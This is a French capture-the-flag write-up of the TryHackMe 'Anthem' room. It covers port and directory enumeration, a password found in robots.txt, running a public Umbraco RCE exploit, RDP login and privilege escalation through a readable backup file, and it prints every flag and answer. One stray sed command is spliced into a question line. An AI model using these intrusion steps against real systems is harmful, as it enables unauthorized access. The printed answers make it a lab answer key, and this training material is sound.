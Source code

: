 # Anthem # 

**Let's run nmap and check what ports are open.**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.252.89 anthem.thm' >> /etc/hosts "
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A -P0 anthem.thm
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-27 08:06 CEST
Nmap scan report for anthem.thm (10.10.252.89)
Host is up (0.033s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2021-07-27T06:07:09+00:00
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Not valid before: 2021-07-26T06:02:03
|_Not valid after:  2022-01-25T06:02:03
|_ssl-date: 2021-07-27T06:08:14+00:00; +2s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): AVtech embedded (87%), Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.44 ms 10.9.0.1
2   33.06 ms anthem.thm (10.10.252.89)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.93 seconds
```

**What port is for the web server?**
D'arpès le scan nmap, c'est le port 80, on est situé le site web.   
Réponse : 80   

**What port is for remote desktop service?**
L'autre port est la prise de contrôle du bureau à distance.   
Réponse : 3389  

**What is a possible password in one of the pages web crawlers check for?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u  http://anthem.thm -w /usr/share/dirb/wordlists/common.txt -x txt,php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://anthem.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2021/07/27 08:12:46 Starting gobuster in directory enumeration mode
===============================================================
/archive              (Status: 301) [Size: 118] [--> /]
/Archive              (Status: 301) [Size: 118] [--> /]
/authors              (Status: 200) [Size: 4060]       
/blog                 (Status: 200) [Size: 5384]       
/Blog                 (Status: 200) [Size: 5384]       
/categories           (Status: 200) [Size: 3531]       
Progress: 5244 / 18460 (28.41%)                       [ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dk": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/django": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dl": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dll": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dm": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dm-config": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dmdocuments": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dns": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 5276 / 18460 (28.58%)                       [ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/DMSDump": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dms": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/robots.txt           (Status: 200) [Size: 192]                
/robots.txt           (Status: 200) [Size: 192]                
/rss                  (Status: 200) [Size: 1855]               
/RSS                  (Status: 200) [Size: 1855]               
/Search               (Status: 200) [Size: 3410]               
/search               (Status: 200) [Size: 3410]               
/SiteMap              (Status: 200) [Size: 1024]               
/sitemap              (Status: 200) [Size: 1024]               
/tags                 (Status: 200) [Size: 3534]               
/umbraco              (Status: 200) [Size: 4078]               

tim@kali:~/Bureau/tryhackme/write-up$ curl http://anthem.thm/robots.txt
UmbracoIsTheBest!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

Avec gobuster on peut voir le fichier robots.txt est disponible.  
Dans le robots on trouve la réponse.  
Réponse : UmbracoIsTheBest!  

**What CMS is the website using?**tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/login = \"XXXX;/login = \"SG@anthem.com\";/g' 46153.py 

Dans les résultats gobuster on remarque que c'est umbraco.   
Réponse : umbraco.  

**What is the domain of the website?**
![page1](./task1-01.png)

La réponse est : Anthem.com  

**What's the name of the Administrator**
![page2](./task1-02.png)

On voit un poème.  

![page3](./task1-03.png)

Sur Wikipedia que c'est Solomon Grundy.  
Réponse : Solomon Grundy.   

**Can we find find the email address of the administrator?**
![page4](./task1-04.png)
Sur la page web we are hiring on voit un email qui JD@anthem.com, la mail été conçu avec la première lettre du prénom et du nom, puis on ajoute le domaine de mail.   
On faite de même pour l'administrateur.   
Qui done SG@anthem.com

Réponse : SG@anthem.com  

## Task 2 Spot the flags ##
**What is flag 1?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s http://anthem.thm/archive/we-are-hiring/ | grep "THM"
<meta content="THM{L0L_WH0_US3S_M3T4}" property="og:description" />
        <input type="text" name="term" placeholder="Search... 								THM{G!T_G00D}" />
```
Dans la page de récrutement dans le code source on trouve le premier flag.   
Réponse : THM{L0L_WH0_US3S_M3T4}

**What is flag 2?**
Dans la même page ci-dessus on trouve le deuxième flag.   
Réponse : THM{G!T_G00D}

**What is flag 3?**
![page5](./task1-05.png)
En cliquant sur le lien Jane Doe on tombe sur la page ci-dessus avec le flag.  
La réponse est : THM{L0L_WH0_D15}  

**What is flag 4?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s http://anthem.thm/archive/a-cheers-to-our-it-department/ | grep "THM"
<meta content="THM{AN0TH3R_M3TA}" property="og:description" />
        <input type="text" name="term" placeholder="Search... 								THM{G!T_G00D}" />
```

Notre dernier flag se trouve dans le code source de la page a-cheers-to-our-it-department.   
Réponse : THM{AN0TH3R_M3TA} 

## Task 3 Final stage ##

**Let's figure out the username and password to log in to the box.(The box is not on a domain)**

![page6](./task1-06.png)
Dans la page de connexion du site utilisons la l'email et le mot pas trouvé dans les questions précédentes.  
Email : SG@anthem.com  
Mot de passe : UmbracoIsTheBest!  

**Gain initial access to the machine, what is the contents of user.txt?**
![page7](./task1-07.png)
Dans panneau de configuration de umbraco dans l'aide pour voir la version d'umbraco. 
La version est la 7.15.4  

[umbraco-exploit](https://github.com/noraj/Umbraco-RCE)

On trouve un exploit un umbraco.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/Umbraco-RCE$ python3 exploit.py -u SG@anthem.com -p UmbracoIsTheBest!  -i 'http://anthem.thm' -c 'powershell.exe' -a "net user"

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
SG                       WDAGUtilityAccount       
The command completed with one or more errors.
```

On exécute l'exploit pour connaître les noms d'utilisateurs.   
Ici on SG qui va nous servir.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/Umbraco-RCE$ xfreerdp /u:SG /p:UmbracoIsTheBest!  /v:anthem.thm
```

**Gain initial access to the machine, what is the contents of user.txt?**

![windows](./task3-08.png)

On se connect avec l'utilisateur SG et le bon mot de passe.   
On trouve notre flag sur le bureau.   
La réponse est : THM{N00T_NO0T} 

![windows](./task3-09.png)
Dans les options d'affichage des fichiers cocher la case pour afficher les fichier cachés. 
Il y a dans la racine du disque un répertoire caché au nom de backup.  


![windows](./task3-10.png)
Nous avons pas les droits en lecture pour lire le fichier.  
Dans les permissions ajoutez le droit en lecture pour l'utilisateur SG.    

**Can we spot the admin password?**

![windows](./task3-11.png)

Nous avons le mot de passe admin.  
Réponse : ChangeMeBaby1MoreTime 

**Escalate your privileges to root, what is the contents of root.txt?**

Allez dans c:\\User\\Administrator. 

![windows](./task3-12.png)
Il demande les droits on a le mot passe admin.   


![windows](./task3-13.png)
Dans le bureau on peut lire le fichier root.
La réponse est : THM{Y0U_4R3_1337}  